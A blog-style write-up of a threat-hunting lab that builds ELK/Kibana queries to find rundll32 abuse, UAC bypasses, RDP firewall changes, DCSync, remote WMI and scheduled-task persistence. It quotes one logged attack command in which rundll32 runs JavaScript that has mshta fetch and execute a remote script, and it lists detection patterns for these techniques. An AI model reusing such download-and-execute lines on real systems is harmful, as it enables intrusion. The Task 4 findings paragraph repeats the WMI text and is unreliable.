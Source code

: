 ```yaml
---
title: Hunting With ELK 2
categories: [Writeup threat_hunting]
tags: [eLearn, threat_hunting, elk, kibana, siem]
---
```

# Scenario 
**Resolvn Threat Hunting Virtual Machine (RTHVM)**

The IT Security manager provided you with simulated malicious activity and has asked you to create hunting detection techniques for all of it.

## Task 1. Hunt for malicious use of rundll32
By employing the sigma rules win_susp_rundll32_activity.yml rules, we can effectively detect and identify processes associated with the malicious utilization of rundll32.

```
((process.args:("*javascript\:*" OR "*.RegisterXLL*")) OR ((process.args:"*url.dll*" AND process.args:"*OpenURL*")) OR ((process.args:"*url.dll*" AND process.args:"*OpenURLA*")) OR ((process.args:"*url.dll*" AND process.args:"*FileProtocolHandler*")) OR ((process.args:"*zipfldr.dll*" AND process.args:"*RouteTheCall*")) OR ((process.args:"*shell32.dll*" AND process.args:"*Control_RunDLL*")) OR ((process.args:"*shell32.dll*" AND process.args:"*ShellExec_RunDLL*")) OR ((process.args:"*mshtml.dll*" AND process.args:"*PrintHTML*")) OR ((process.args:"*advpack.dll*" AND process.args:"*LaunchINFSection*")) OR ((process.args:"*advpack.dll*" AND process.args:"*RegisterOCX*")) OR ((process.args:"*ieadvpack.dll*" AND process.args:"*LaunchINFSection*")) OR ((process.args:"*ieadvpack.dll*" AND process.args:"*RegisterOCX*")) OR ((process.args:"*ieframe.dll*" AND process.args:"*OpenURL*")) OR ((process.args:"*shdocvw.dll*" AND process.args:"*OpenURL*")) OR ((process.args:"*syssetup.dll*" AND process.args:"*SetupInfObjectInstallAction'*")) OR ((process.args:"*setupapi.dll*" AND process.args:"*InstallHinfSection*")) OR ((process.args:"*pcwutl.dll*" AND process.args:"*LaunchApplication*")) OR ((process.args:"*dfshim.dll*" AND process.args:"*ShOpenVerbApplication*")))
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2.jpg){: width="972" height="589" }

```
cmd.exe, /C, rundll32.exe, javascript:\..\mshtml,RunHTMLApplication ;document.write();h=new%%20ActiveXObject(WScript.Shell).run(mshta https://hotelesms.com/talsk.txt,0,true);
```

The query yielded 8 hits that involve the misuse of rundll32.exe. The initial instance shows the execution of code from the internet, where rundll32.exe is utilized to run a JavaScript script downloaded from a remote website  hotelsms[.]com/talsk[.]txt [ref](https://attack.mitre.org/techniques/T1218/011/)

## Task 2. Hunt for UAC Bypass leveraging cliconfg.exe
UAC bypass technique that leverages cliconfg.exe. We can utilize Sysmon event ID 7, focusing on the process executable for cliconfg.exe, and filter for the file path of the "NTWDBLIB.dll" dynamic-link library (DLL) file, commonly known as the "SQL Server Client Library." [ref](https://attack.mitre.org/techniques/T1548/002/)

```
event.id: 7 AND process.executable : cliconfg.exe AND file.path : *NTWDBLIB.dll*
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-1.jpg){: width="972" height="589" }
  
We have successfully obtained one match based on our query, revealing the UAC bypass involving cliconfig.exe. Furthermore, by filtering the process ID of the event, which is 880, we gain insights into the specific tool employed by the threat actor.


![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-2.jpg){: width="972" height="589" }


Upon further examination, it becomes evident that the threat actor has employed a UAC bypass technique known as [WinPwnage](https://github.com/rootm0s/WinPwnage#uac-bypass-techniques),  with a flag option of -i 11 which relies on token manipulation. Token manipulation is a method utilized to modify user access tokens, which are security descriptors containing information about a user's privileges and group memberships.  [ref](https://attack.mitre.org/techniques/T1548/002/)


## Task 3. Hunt for RDP settings tampering
To initiate the hunt for RDP settings tampering, we can begin our query by filtering for the process executable "netsh.exe" Additionally, we should include an "add rule" for capturing specific event details that may be indicative of RDP settings manipulation.

```
(((process.executable:"*\\netsh.exe") OR (winlog.event_data.OriginalFileName:"netsh.exe")) AND (process.args:"*\ firewall\ *" AND process.args:"*\ add\ *"))
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-3.jpg){: width="972" height="589" }
The query returned one hit, the threat actor used the "netsh" command to add a firewall rule named "Remote Desktop" with TCP port 3389 allowed for inbound traffic. This could potentially grant unauthorized access through RDP. [ref](https://attack.mitre.org/techniques/T1021/001/)

## Task 4. Hunt for DCSync
Hunting for DCSync, we can use this [Sigma rule]([https://github.com/Neo23x0/sigma/blob/master/rules/windows/builtin/win_dcsync.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/builtin/win_dcsync.yml)) The rule searches for event ID 4662, which is often related to permissions modifications in Active Directory. To eliminate common legitimate accounts, it excludes user names ending with "*" and specific built-in accounts such as "AUTHORITY" and "Window." The rule focuses on objects with properties matching the DCSync schema identifier (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2) or objects related to replication (object.properties:Replicating). 

```
event.id:4662 AND NOT (user.name:*$ OR user.name:AUTHORITY OR user.name:Window) AND (object.properties:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2 OR object.properties:Replicating)
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-4.jpg){: width="972" height="589" }
With our query, we obtained three hits, suggesting the presence of Remote WMI Usage technique. these process being used could potentially indicate attempts by threat actors to leverage WMI for remote code execution or to gather system information from the target systems. [ref](https://d3fend.mitre.org/offensive-technique/attack/T1003.006/)

## Task 5. Hunt for Remote WMI Usage
To hunt for the Remote WMI Usage technique, we can begin by focusing on event ID 4648 and filtering for the process parent name of "WMIC.exe." This combination can help us identify potential instances where WMI (Windows Management Instrumentation) is being used remotely.

```
event.id : 4648 and process.parent.name : *wmi*
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-5.jpg){: width="972" height="589" }


With our query, we obtained three hits, suggesting the presence of Remote WMI Usage technique. The three instances of the "WMIC.exe" process being used could potentially indicate attempts by threat actors to leverage WMI for remote code execution or to gather system information from the target systems. [ref](https://attack.mitre.org/techniques/T1047/)


## Task 6. Hunt for persistence through scheduled Tasks
To begin hunting for persistence through scheduled tasks, we will initiate our query by focusing on process name "schtasks" and Sysmon event ID 1, which indicates process creation. 
```
 process.name:schtasks AND event.id:1
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-6.jpg){: width="972" height="589" }
Based on the query, we obtained one hit that reveals the usage of the "schtasks" process to create a scheduled task. This scheduled task creation indicates a potential persistence mechanism used by threat actors to execute a suspicious file ("mshta.exe") from the system's "System32" directory with a command-line argument from an external URL ("hxxps[://]hotelesms[.]com/Injection[.]txt") every 6 minutes when a user logs on. [ref](https://attack.mitre.org/techniques/T1218/005/ )

## Task 7. Hunt for UAC Bypass leveraging SDCLT.EXE
The SDCLT UAC bypass takes advantage of the fact that SDCLT.exe is a trusted Microsoft application that is not subject to UAC prompts. Attackers can leverage this behavior to execute arbitrary code with elevated privileges, potentially allowing them to perform unauthorized actions on the system, compromise its security, and gain persistence.
To hunt for UAC bypass leveraging SDCLT.exe, we can start by focusing on the process with the executable name "sdclt.exe" and filtering for arguments containing "kickoffelev". 

```
process.executable : sdclt.exe AND process.args : *kickoffelev*
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-7.jpg){: width="972" height="589" }

The presence of one hit indicates the usage of "sdclt.exe" with the argument "kickoffelev." The argument "kickoffelev" is associated with a specific UAC bypass technique known as the "[SDCLT UAC bypass.](https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/)" [ref](https://pentestlab.blog/2017/06/09/uac-bypass-sdclt/)

## Reference 
- <https://github.com/RESOLVN/RTHVM> 
- <https://attack.mitre.org/techniques/T1218/011/>
- <https://attack.mitre.org/techniques/T1548/002/>
- <https://github.com/rootm0s/WinPwnage#uac-bypass-techniques>
- <https://attack.mitre.org/techniques/T1021/001/>
- <https://d3fend.mitre.org/offensive-technique/attack/T1003.006/>
- <https://attack.mitre.org/techniques/T1047/>
- <https://attack.mitre.org/techniques/T1218/005/>
- <https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/>
- <https://pentestlab.blog/2017/06/09/uac-bypass-sdclt/> 
- https://github.com/Neo23x0/sigma/blob/master/rules/windows/builtin/win_dcsync.yml